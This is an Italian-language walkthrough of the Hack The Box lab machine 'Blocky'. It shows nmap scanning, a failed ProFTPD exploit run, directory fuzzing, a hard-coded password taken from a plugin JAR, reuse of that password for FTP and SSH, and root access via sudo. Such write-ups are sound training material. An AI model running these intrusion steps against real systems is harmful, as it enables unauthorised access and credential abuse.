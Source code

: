 ```yaml
---
title: "Blocky Walkthrough"
description: "Blocky è una macchina abbastanza semplice, basata su una reale. Dimostra i rischi legati a cattive pratiche nella gestione delle password e all’esposizione di file interni su sistemi accessibili pubblicamente. Inoltre, mette in evidenza un potenziale vettore d’attacco enorme: Minecraft. Esistono decine di migliaia di server pubblici, spesso gestiti da amministratori inesperti e giovani, diventando facile bersaglio."
author: dua2z3rr
date: 2025-09-09 1:00:00
categories: [Machines]
tags: ["Area di Interesse: Common Applications", "Area di Interesse: Software & OS exploitation", "Area di Interesse: Authentication", "Area di Interesse: Web Application", "Area di Interesse: Vulnerability Assessment", "Vulnerabilità: Misconfiguration", "Vulnerabilità:  Hard-coded Credentials", "Codice: Java"]
image: /assets/img/blocky/blocky-resized.png"
---
```


## Enumerazione Esterna

### Nmap

```shell
┌─[dua2z3rr@parrot]─[~]
└──╼ $sudo nmap -vv -p- 10.10.10.37
<SNIP>
PORT      STATE  SERVICE   REASON
21/tcp    open   ftp       syn-ack ttl 63
22/tcp    open   ssh       syn-ack ttl 63
80/tcp    open   http      syn-ack ttl 63
8192/tcp  closed sophos    reset ttl 63
25565/tcp open   minecraft syn-ack ttl 63

<SNIP>

┌─[dua2z3rr@parrot]─[~]
└──╼ $sudo nmap -vv -p 21,22,80,8192,25565 -sC -sV 10.10.10.37
<SNIP>
PORT      STATE  SERVICE   REASON         VERSION
21/tcp    open   ftp       syn-ack ttl 63 ProFTPD 1.3.5a
22/tcp    open   ssh       syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDXqVh031OUgTdcXsDwffHKL6T9f1GfJ1/x/b/dywX42sDZ5m1Hz46bKmbnWa0YD3LSRkStJDtyNXptzmEp31Fs2DUndVKui3LCcyKXY6FSVWp9ZDBzlW3aY8qa+y339OS3gp3aq277zYDnnA62U7rIltYp91u5VPBKi3DITVaSgzA8mcpHRr30e3cEGaLCxty58U2/lyCnx3I0Lh5rEbipQ1G7Cr6NMgmGtW6LrlJRQiWA1OK2/tDZbLhwtkjB82pjI/0T2gpA/vlZJH0elbMXW40Et6bOs2oK/V2bVozpoRyoQuts8zcRmCViVs8B3p7T1Qh/Z+7Ki91vgicfy4fl
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNgEpgEZGGbtm5suOAio9ut2hOQYLN39Uhni8i4E/Wdir1gHxDCLMoNPQXDOnEUO1QQVbioUUMgFRAXYLhilNF8=
|   256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILqVrP5vDD4MdQ2v3ozqDPxG1XXZOp5VPpVsFUROL6Vj
80/tcp    open   http      syn-ack ttl 63 Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://blocky.htb
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
8192/tcp  closed sophos    reset ttl 63
25565/tcp open   minecraft syn-ack ttl 63 Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Analiziamo l'output di nmap. Abbiamo delle porte classiche come la 21 (ftp), la 22 (ssh) e la 80 (http). Abbiamo una porta chiusa con servizio sophos.

> Sophos Remote Management System (RMS) allows administrators to remotely manage, update, and monitor Sophos security products across an enterprise. It leverages a proprietary communication protocol to facilitate command delivery, status reporting, and policy update enforcement between endpoint agents and the management console..

Infine, sulla porta 25565 abbiamo... MINECRAFT?!

### HTTP

Accediamo alla porta 80.

![Desktop View](/assets/img/blocky/blocky-home-page.png)

Questa box si basa interamente su minecraft. Continuiamo a esplorare la homepage del sito in questione.

![Desktop View](/assets/img/blocky/blocky-home-page-2.png)

In fondo alla home page scopriamo che il sito è stato creato con wordpress e che ci potrebbe essere la presenza di un plugin per le statistiche dei giocatori. Possiamo inoltre accedere ad una pagina di **log in** su wordpress, ma non abbiamo le credenziali. Enumeriamo gli altri servizi aperti prima di prcedere con un brute-force o fuzzing.

L'unico post è stato scritto da uno user chiamato notch (ovviamente...). Questo potrebbe servirci in futuro.

### FTP

L'anonymous access non è abilitato, quindi non possiamo accedere al server ftp. ci serviranno delle credenziali.

### Ricerca Exploit

Cerchiamo se esistono exploit per questa versione di ftp.

![Desktop View](/assets/img/blocky/blocky-ftp-vuln-1.png)

Proviamo con questo.

```shell
┌─[✗]─[dua2z3rr@parrot]─[~/Boxes/blocky/exploit-CVE-2015-3306]
└──╼ $python3 exploit.py --host 10.10.10.37 --port 21 --path "/var/www/wordpress/"
[+] CVE-2015-3306 exploit by t0kx
[+] Exploiting 10.10.10.37:21
[!] Failed
```

L'exploit fallisce. Continuiamo la nostra enumerazione

### Fuzzing

Dopo aver utilizzato il comando `ffuf -w /home/dua2z3rr/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt:FUZZ -u http://blocky.htb/FUZZ -ic -fw 20 -recursion` veniamo a conoscenza della directory `plugins` dove possiamo scaricare 2 file jar.

![Desktop View](/assets/img/blocky/blocky-plugins-dir.png)

Scarichiamoli.

## Reverse Engineering

### BlockyCore.class

Nel primo JAR troviamo il source code del primo plugin.

![Desktop View](/assets/img/blocky/blocky-plugin-source.png)

Utilizziamo un sito per leggere il bytecode.

![Desktop View](/assets/img/blocky/blocky-class.png)

Troviamo la stringa `8YsqfCTnvxAUeduzjNSXe22` per accedere a un database. Proviamola come password nel server ftp con user notch.

### FTP

```shell
┌─[dua2z3rr@parrot]─[~]
└──╼ $ftp 10.10.10.37
Connected to 10.10.10.37.
220 ProFTPD 1.3.5a Server (Debian) [::ffff:10.10.10.37]
Name (10.10.10.37:dua2z3rr): notch
331 Password required for notch
Password: 
230 User notch logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

Prendiamo la user flag.

## Shell come notch

Colleghiamoci come notch con ssh con le credenziali utilizzate per ftp e utilizziamo il comando `sudo -l`.

```shell
notch@Blocky:~$ sudo -l
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

Non dobbiamo fare alcuna privilege escalation. Possiamo diventare root semplicemente utilizzando `sudo -i`.

```shell
notch@Blocky:~$ sudo -i
root@Blocky:~#
```

Prendiamo la root flag e terminiamo la box.
